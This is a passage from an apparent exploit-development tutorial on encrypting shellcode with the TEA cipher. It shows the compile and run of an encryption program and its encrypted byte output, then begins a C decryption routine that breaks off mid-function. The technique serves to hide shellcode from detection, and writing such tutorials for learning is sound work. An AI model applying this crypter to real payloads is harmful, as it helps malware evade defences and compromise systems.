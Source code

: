 ```c
    printShellcode(shellcode);

    return 0;
}
```

### Let's compile and run it:
```console
kali@kali:/tmp$ gcc encrypt_shellcode.c -o encrypt_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./encrypt_shellcode 
Shellcode length = 40
\x38\xd1\x0d\x2b\xdf\xc6\xf2\x1a\x97\x2b\xfc\x72\x5e\xcf\x67\x39\x10\xa7\xd4\x41\x29\x0a\x8e\xf6\xe2\xcb\x7e\x5e\x20\xff\x86\x71\x81\xf2\xca\x0b\x7d\x1a\x3c\xff
kali@kali:/tmp$
```


## 5) The decryption routine:
Below is the C code used to decrypt the previous shellcode using TEA encoding schema. 

No need to give more details on the code the commentaries are self explanatory:
```c
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>



/* This function is used to decrypt a message. The message is divided in 64 bits blocks and then decrypt with the 128 bits key.
:param uint32_t v[2] -> the message to decrypt:
:param uint32_t k[4] -> the key used to decrypt:
*/
void decrypt (uint32_t v[2], uint32_t k[4]) 
{

    uint32_t v0=v[0], v1=v[1], sum=0xC6EF3720, i;  // set up 

    uint32_t delta=0x9e3779b9;                     // a key schedule constant 

    uint32_t k0=k[0], k1=k[1], k2=k[2], k3=k[3];   // cache key //

    for (i=0; i<32; i++) {                         // basic cycle start 
        v1 -= ((v0<<4) + k2) ^ (v0 + sum) ^ ((v0>>5) + k3);
        v0 -= ((v1<<4) + k0) ^ (v1 + sum) ^ ((v1>>5) + k1);
        sum -= delta;
    }                                              // end cycle 
    v[0]=v0; 
    v[1]=v1;
}


/* This function is used to divided the encrypted shellcode in block of 64 bits and then call the decrypt function.
:param char *shellcode -> the shellcode to decrypt:
:param uint32_t k[4] -> the key used to decrypt:
*/
void decryptBlocks(char *shellcode, uint32_t *key)
{   
    // Declare variables
    int i = 0, blockcount;
    
    // Devide the shellcode in blockcount
```